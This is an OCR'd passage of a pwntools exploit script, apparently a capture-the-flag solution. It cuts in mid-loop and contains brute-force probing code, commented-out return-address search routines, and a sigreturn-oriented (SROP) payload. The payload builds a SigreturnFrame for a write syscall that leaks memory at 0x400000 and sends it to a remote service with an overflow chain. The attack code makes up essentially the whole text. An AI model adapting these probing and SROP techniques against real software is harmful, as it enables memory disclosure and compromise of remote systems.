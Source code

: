 ​    t = prefix + bytes([i])

​    c = probe(t, None)

​    if c != "crash":

​      print(hex(i), c)

 

 

\# test(b"a" * 16)

\# test(b"a"*16 + b"\xce")

\# test(b"a" * 16 + b"\xce\x00")

\# probe(b"a"*16 + p64(0x4000ce))   # "normal"

\# probe(b"a"*16 + p64(0x4000ce)[:7]+b"\x01")   # "crash"

 

\# def findret(prefix):

\#   for i in range(256 * 256):

\#     t = prefix + p64(0x400000 + i) + p64(0x4000ce)

\#     c = probe(t, b"TNT TNT!\n")

\#     if c == "normal":

\#       print(hex(i), c)

\#

\#

\# findret(b"a" * 16)

 

context(os='linux', arch='amd64', log_level='debug')

sigframe = SigreturnFrame()

sigframe.rax = 1

sigframe.rdi = 1

sigframe.rsi = 0x400000

sigframe.rdx = 0x1000

sigframe.rip = 0x4000c7

 

s = remote(ip, port)

s.recvuntil(b"hacker, TNT!\n")

s.send(b'a' * 16 + p64(0x4000ee) + p64(0x4000c7) + bytes(sigframe))

sleep(1)

 